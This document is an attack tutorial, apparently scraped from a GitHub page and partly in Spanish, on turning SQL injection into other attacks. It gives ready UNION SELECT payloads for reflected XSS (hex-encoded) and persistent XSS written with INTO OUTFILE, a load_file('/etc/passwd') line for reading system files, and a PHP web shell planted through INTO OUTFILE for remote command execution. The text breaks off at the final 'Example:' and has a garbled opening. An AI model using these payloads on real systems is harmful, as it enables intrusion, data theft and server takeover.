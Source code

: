 ### From Sqli to XSS

When we have a page vulnerable to sql injection it is also vulnerable to sql injections, which can be from the vulnerable parameter, but in this case we are going to use sql injection to inject xss, this can be in 2 ways:

#### Reflective XSS

In the vulnerable column we are going to inject the xss payload that we want.

"IMPORTANT" we have to move to hex.

For the example we are going to use this payload:

`<script>alert("_Y000!_")</script>`

Now in HEX:

`0x3c7363726970743e616c65727428225f59303030215f22293c2f7363726970743e`

Ejemplo:

`union+select+1,0x3c7363726970743e616c65727428225f59303030215f22293c2f7363726970743e,3+--+`

In this way we are doing a reflective xss

#### XSS persistente

For a persistent xss we need to have write permissions, everything is fine and the vulnerable page gives us permissions we have to do the following:

Using the INTO OUTFILE function we are going to write a file at the root of the page.

Example:

`union+select+1,'<script>alert("_Y000!_")</script>',3+INTO+OUTFILE+'ruta/nombre.html'+--+`

And with that we are going to create an .html file with our persistent XSS.

### De Sqli a LFR

Sql also has a function that allows us to load local files and with that we can read files that normally we should not have access to.

Example: `union all select load_file(‘/etc/passwd’)`

### De Sqli a RCE

Using the same method with which we did a persistent xss we are going to do the following:

We are going to inject php code with which we are going to generate a shell with which we are going to be able to execute commands within the vulnerable server

Code:  `'<?php system($_GET["cmd"]); ?>'`

We are going to inject it using a:

INTO+OUTFILE+'ruta/nombre.php'

Example: 
